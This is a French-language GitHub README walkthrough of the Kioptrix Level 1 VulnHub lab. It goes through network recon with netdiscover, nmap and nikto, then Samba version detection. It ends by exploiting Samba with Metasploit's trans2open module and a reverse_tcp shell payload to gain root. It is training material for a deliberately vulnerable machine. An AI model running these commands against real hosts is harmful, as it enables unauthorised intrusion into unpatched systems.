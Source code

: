 ## Installation

Installer mon projet avec   

```
https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar
```
  
# --------------------------------------------
## NETDISCOVER 

Je commence par scanner le réseaux avec la commande
netdiscover -r 192.168.91.0/24.
J'utilise l'attribut ```-r``` pour scanner un réseaux spécifique (plage d'adresses IP) .

![Netdiscover](SCREEN/netdiscover.png)
![NETDISCOVERRESULTAT](SCREEN/resultatnetdiscover.png)
Pour voir si la machine est en marche je vais utiliser fping . 
![fping](SCREEN/fping.png)
La machine étant bien en marche je vais donc pouvoir lancer un nmap.
## NMAP

![NMAP](/SCREEN/nmap.png)

```bash
  nmap -sC -sV -p IP
```

Les options que j'ai choisit sont : 
-sC :Utilise l'ensemble de scripts par défaut. Cela équivaut à --script=default.
-sV : Détection de version
-p : Pour les ports
![resultat](SCREEN/name.png)

On remarque donc que nous sommes bien sur la bonne machine cible .
![nmapresultat](SCREEN/nmapresultat.png)

On remarque donc que nous avons du :
-SSH avec openSSH en version 2.9p2 
-Du Web avec les protocoles ( 80 et 443 )
-SMB (on ne connait pas encore la version)
-RPC 

## METASPLOIT 

Dans Kali, vous devrez démarrer le serveur postgresql avant d'utiliser la base de donnée
![nmapresultat](SCREEN/systemctl.png)
Pour lancer metasploit depuis la console :
```
msfconsole 
```

![nmapresultat](SCREEN/msfconsole.png)
Puis après je viens exécuter la commande : 
```
msfdb init
```

Puis je vais créer mon workspace :
![WORSPACE](SCREEN/worksape.png)
Création de mon Worspace .

### Lister les adresses IP

Pour cette partie nous allons utiliser scanner :

![searchscanner](SCREEN/searchscanner.png)
![searchscannerarp](SCREEN/searcharp.png)

Je vais donc utiliser le n°0 
```
use 0
```
![searchscannerarp](SCREEN/arpresult.png)
Puis en paramètre j'indique le réseau de ma machine en /24

L'IP de la machine est : 192.168.91.116

### Lister les ports ouverts
Pour lister les ports d'ouverts je vais venir utiliser db_nmap :

```
db_nmap -Pn -sTV -T4 --open --min-parallelism 64 --version-all 192.168.91.116 -p -
```

![dbnmap](SCREEN/dbnmap.png)
SSH - Version : OpenSSH 2.9p2
Web - Version : Apache httpd 1.3.20

### BILAN

Pour utiliser nikto j'ai utiliser cette commande : 
```
nikto -h [IP] 
```

![nikto](SCREEN/nikto.png)

Puis je me suis rendu sur exploit-db : 
![exploitdb](SCREEN/exploitdb.png)
(J'ai indiqué dans mes critères de recherche la CVE-2002-0082)
Pour trouver la version smb de la machine cible j'utilise la commande : 
```
search scanner smb version
```

![search](SCREEN/20.png)

Après avoir paramètrer :
```
set RHOSTS IP
set THREADS 1
run
```

![smbversion](SCREEN/smbversion.png)

La version de notre Samba (SMB) est donc : Samba 2.2.1a

# Recherche des failles

Exemple avec OpenSSH 2.9

J'utilise : 
```
searchsploit
```

![SEARCHSPLOIT](SCREEN/searchsploit.png)
[LIEN VERS LE .C](https://www.exploit-db.com/exploits/21671)

Son nom complet est : 
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow

# Exploitation

J'ai commencé par taper la commande suivante :
```
search exploit samba
```

![searchexploit](SCREEN/searchexploit.png)

Je vais utiliser l'exploit :
```
linux/samba/trans2open
```
Car en me renseignant sur intenrent j'ai vu que l'exploit était compatible avec notre machine cible et qu'ils sont apparus à peu pres a la même date .
```
use n°16
```

Puis je vais venir set un payload avant de configurer mon exploit.

```
set payload /linux/x86/shell/reverse_tcp
```
Par la suite je configure mon exploit . je passe d'abord par un `show options`
Puis :
![configexploit](SCREEN/configexploit.png)

Puis je run mon exploit

![runexploit](SCREEN/runexploit.png)
On remarque donc que j'ai accès au droit de super-utilisateur .
# --------------------------------------------#
## Auteur
- [@theodufour](https://github.com/TheoDfr)
## Documentation
[Managing Workspaces](https://docs.rapid7.com/metasploit/managing-workspaces/)
[Netdiscover](https://www.oreilly.com/library/view/kali-linux-2018/9781789341768/487203a3-1d14-44f1-8256-b3d97a46f63a.xhtml#:~:text=To%20launch%20Netdiscover%2C%20type%20netdiscover,ve%20used%20netdiscover%20–r%2010.10.)
[Nmap](https://nmap.org/man/fr/man-version-detection.html)
[Metasploit](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
[Nikto](https://memo-linux.com/nikto-outil-scanner-de-securite-serveur-web/)
[Samba Exploit](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

